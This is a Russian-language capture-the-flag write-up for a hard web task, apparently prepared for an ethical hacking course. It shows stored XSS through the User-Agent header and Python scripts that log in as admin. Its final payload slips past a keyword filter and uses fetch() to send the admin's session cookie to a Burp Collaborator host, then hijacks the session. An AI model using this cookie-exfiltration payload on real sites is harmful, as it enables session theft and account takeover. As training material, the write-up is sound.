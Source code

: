 # Врайт-ап задания "Запретный код" с платформы codeby.games

Подготовлен

![Untitled](content/Untitled.png)

Задание **“Запретный код”** имеет сложность “Сложный” и относится к категории Веб

---

Переходим по указанному адресу **(62.173.140.174:16035)** и видим страницу авторизации с возможностью создания аккаунта

![Untitled](content/Untitled%201.png)

После регистрации попадаем на страницу с логами входа. При регистрации аккаунта я сразу решил попробовать проэксплуатировать XSS уязвимость и в поле *Username* вставил тестовый скрипт `<script>alert(1)</alert>`
Страница после входа выглядит так:

![Untitled](content/Untitled%202.png)

---

Попробуем зайти в наш аккаунт с другого профиля в хром но с другим паролем, чтобы попытка входа отобразилась в логах

![Untitled](content/Untitled%203.png)

![Untitled](content/Untitled%204.png)

Видим, что наш скрипт успешно отработал

---

Теперь же наша задача попасть в админ панель, посмотрим, из чего состоят cookie, чтобы мы могли по ним попасть к админу

![Untitled]content/Untitled%205.png)

---

Напишем простой скрипт на питоне с использованием библиотеки requests для того чтобы посмотреть возможность редактирования User agent. Это все нам надо чтобы в последствии когда мы допишем пейлоад мы могли в наш User agent запихнуть пейлоад на получения куков админа

```python
# Импорт библиотеки requests для работы с http запросами
import requests
# Сам пейлоад
payload = '<script>alert(document.cookie);</script>'

# Логин который будет использоваться при входе
user = "asdf"
# Часть из запроса включаящая User-agent которую мы изменяем на payload
headers = {'User-Agent': payload}
# Тоже часть запроса, передающая данные для входа
data = {"username":user, "password":"aboba"}

# Склеивание запроса вместе и отправка на сервер
response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)

# Вывод статус кода и текста ответа
print(response.status_code)
print(response.text)
```

> Этот скрипт совершает попытку входа в наш аккаунт подставляя в User agent простой пейлоад
> 

Это будет работать примерно так:

- Мы изменяем наш User agent на пейлоад
- Мы знаем, что у админа логин - admin, используем это и будет входить с любым паролем, чтобы у админа он отобразился в логах
- Т.к. мы выяснили, что скрипт вставленный в User agent срабатывает автоматически, следоватаельно мы можем заменить простой пейлоад на пейлоад с получением куки из document.cookie
- Мы будем использовать **Collaborator** из burp suit pro ****для создания временного сервера для приятия наших отстуков

Т.к. на сайте присутствует защита от прямого получения cookie по фильтру на это слово используем возможности JavaScript для преобразования двух частей слово в одно

```jsx
<script>const vv = ["coo", "kie"].join("");alert(document[vv]);</script>
```

Итоговый пейлоад будет выглядеть так:

```python
import requests
# В данном коде все аналогично прошлому, но тут мы разделили слово cookie на два фрагмента и склеили их потом
payload = '<script>const vv = ["coo", "kie"].join(""); var payload = `https://{ссылка из burpsuit}/?${vv}=` + document[vv]; fetch(payload);</script>'
user = "admin"
headers = {'User-Agent': payload}
data = {"username": user, "password": "aboba"}
response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)
print(response.status_code)
print(response.text)
```

Запускаем и ждем  ответа в бурпе

![Untitled]content/Untitled%206.png)

Тут нас интересует phpsessid, копируем его и подменяем через cookie editor 

![Untitled]content/Untitled%207.png)

И попадаем в админ панель с флагом в ней!

![Untitled](content/Untitled%208.png)

---

Написано [frechez](https://t.me/peeepaw) для курса "Этичный хакинг"
